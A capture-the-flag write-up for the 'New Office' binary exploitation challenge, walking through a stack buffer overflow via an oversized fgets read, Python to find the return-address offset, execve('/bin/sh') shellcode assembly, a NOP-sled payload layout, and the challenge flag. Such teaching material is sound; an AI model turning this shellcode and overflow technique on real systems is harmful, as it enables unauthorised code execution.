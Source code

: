 # New Office

## Authors

- @jjamme (Frank)

## Category

- Binary Exploit

## Description

We aren't using gets this time so good luck trying to execute a buffer overflow

`nc pwn.ctf.unswsecurity.com 5001`

## Difficulty

- Easy

## Points

50

## Files

- [new_office](_ctfd/files/new_office): binary to exploit

Try include a link to the file where possible (such as within a repo).

## Solution

<details>
<summary>Spoiler</summary>

### Idea

Use buffer overflow to redirect code execution!

### Walkthrough

As usual, a plug for LiveOverflow is due:

- [LiveOverflow's binary exploitation playlist](https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN)
  (Shall go into the exploits in MUCH more detail, is how @Sequeli learnt buffer overflows)

This challenge is similar to [Welcome to Skylight Cyber](/binary/Welcome-To-Skylight-Cyber/writeup.md), however the main thing is that we're not using gets anymore. But lets try a lot of input anyway, and we see that the program segfaults

```bash
python2 -c "print 'a' * 100" | ./new_office
# segmentation fault
```

Why did this happen?

Disassembling the binary, we see that while it uses fgets, the "push" instruction pushes an absurdly large number on the stack, larger than the buffer itself. This is _almost_ same as making a gets call directly since we can overwrite the stack and the return address in extension

![fgets, with an absurd buffer size](writeup-imgs/fgets.png)

```c
fgets(buffer, 0x1388)
```

Notice how the addresses are offsets (a very low number). This means that PIE (Position Independent Execution) is enabled. We can check this using pwntools:

```bash
checksec new_office
```

This also means that the addresses in the binaries keep changing and cannot be hardcoded.

But first, we need to find the offset to the return address. We can use a modified version of the solution from the welcome to the secsoc challenge to find the address

```py
from pwn import *
from subprocess import Popen, PIPE

for i in range(20, 100):
    test = b'a' * i

    # open a link to the program and execute
    prog = Popen('./new_office', stdin=PIPE, stdout=PIPE)
    prog.communicate(test)

    # Segfault
    if prog.returncode == -11:
        print(i)
        break
```

Here we get 62 again, the buffer size is the same.

The next problem is to find how to exploit the program. There's no `win` function, so the best thing to do is to try and open a shell, so we can grab the flag from the server.

Since we have a lot of space on the stack, we could make use of the space to create and execute our exploit. From `checksec` earlier, we see that the NX (Non-executable Stack) protection is turned off as well.

So we can choose our exploit to be shellcode-based. Shellcode is just machine code that the program can execute. It's simply inserting your instructions into a binary.

We can again use to generate the shellcode for us, we simply write the assembly for it. We essentially want to mock the `system()` syscall and pass it the string "/bin/sh" (or in hex: `0x2f62696e2f7368`). In C this would be:

```c
system("/bin/sh")
```

which would open a shell.

**Note:** We need to format /bin/sh to be in little endian format, and split it into two parts so that it can be pushed onto the stack. /bin/sh is actually padded to `//bin/sh` to make it 8 bytes so that it can be pushed onto the stack. This is a nice trick since executing `//bin/sh` is the same as executing `/bin/sh`

Here's the assembly to set up the registers properly for the syscall

```py
shellcode = asm(
'''
xor eax, eax
push eax

push 0x68732f2f
push 0x6e69622f
mov ebx, esp
xor ecx, ecx
mov edx, ecx

mov eax, 0xb
int 0x80
'''
)
```

Now we can jump to it. We're told the address of the buffer, so we can simply put the shellcode in the buffer and then jump to it

Finally, since aslr is turned on, if the address is not exactly at the start of our shellcode, then the exploit won't run. To avoid this, we can use something called a "nop sled". The `nop` (0x90) instruction does nothing, so we can put a ton of them before our shellcode to make sure that the shellcode will always execute in order. We can put an arbitrary number of `nop`s (say 500). The more the better.

So the payload is:

```py
buff_addr = (...) # get this from the program itself
payload = b"\x90"*62 + buff_addr + b"\x90"*500 + shellcode
```

And now we can automate all of this using pwntools. An example of which is in [the solve script in this repository](solve.py)

### Flag

`SKYLIGHT{3x3CuTe_0ff1cE_5TACK}`

</details>

